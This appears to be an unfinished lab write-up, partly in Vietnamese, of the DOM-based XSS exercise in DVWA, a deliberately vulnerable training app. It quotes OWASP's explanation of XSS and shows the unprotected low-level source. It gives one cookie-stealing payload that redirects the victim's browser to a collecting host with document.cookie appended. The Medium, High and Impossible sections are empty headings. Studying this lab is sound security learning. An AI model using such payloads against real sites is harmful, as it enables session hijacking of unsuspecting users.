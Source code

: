 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: XSS (DOM)
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
  - DVWA
---
```


# __XSS (DOM)__

_Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it._

_An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. For more details on the different types of XSS flaws, see: [Types of Cross-Site Scripting](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)._

---

## __Objective__

Run your own JavaScript in another user's browser, use this to steal the cookie of a logged in user.

## __Security Level: Low__

Source code

```php title="vulnerabilities/xss_d/source/low.php"
<?php

# No protections, anything goes

?> 
```

### __Analysis__

Challenge này thì đơn giản rồi, không có ràng buộc về source code. Bạn chỉ cần ghi nhớ muốn lấy cookie thì dùng `document.cookie`. Và tùy thuộc suy nghĩ của bạn về vấn đề mà có hướng attack đúng đắn.

> Thay vì ta xuất thông báo cookie (`alert(document.cookie)`) trên trình duyệt. Thì nên tạo 1 website nào đó lưu yêu cầu lại. Vì ngữ cảnh ta đặt ra là cho 1 victim "click" và ta sẽ ngồi ở nơi nào đó "quan sát"

### __Exploition__

Ta có nhiều cách khai thác

![](image.png)

![](image-1.png)

![document.location="http://localhost:8000/?abc="+document.cookie](image-2.png)

---

## __Security Level: Medium__

Source code

```php title=""
```

### __Analysis__

### __Exploition__

---

## __Security Level: High__

Source code

```php title=""
```

### __Analysis__

### __Exploition__

---

## __Security Level: Impossible__

Source code

```php title=""
```

### __Analysis__

---

## __What we learned__

## __More Information__

- https://owasp.org/www-community/attacks/xss/
- https://owasp.org/www-community/attacks/DOM_Based_XSS
- https://www.acunetix.com/blog/articles/dom-xss-explained/